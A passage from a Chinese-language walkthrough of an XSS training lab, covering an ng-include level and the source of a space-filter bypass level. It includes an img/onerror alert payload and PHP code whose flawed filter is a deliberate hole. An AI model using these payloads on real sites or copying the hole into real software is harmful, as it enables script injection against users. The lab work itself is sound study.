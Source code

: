 发现个`ng-include:`，include作用是将同一服务器的html文件包含进来，和src进行传参，在请求 src 资源时会将其指向的资源下载并应用到文档中，比如 JavaScript 脚本，img 图片等等，在这里我们将src指向任意一关，输入对应的xss弹窗脚本即可。

payload：



```xml
'level1.php?name=<img src=1 onerror=alert(1)>'
```

这里包含第一关的payload。

## Level16 (空格绕过)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level17.php?arg01=a&arg02=b"; 
}
</script>
<title>欢迎来到level16</title>
</head>
<body>
<h1 align=center>欢迎来到level16</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
<center><img src=level16.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str5)."</h3>";
?>
</body>
</html>
```

### 注入过程

可以看到keyword参数值是`test`，查看网页源代码
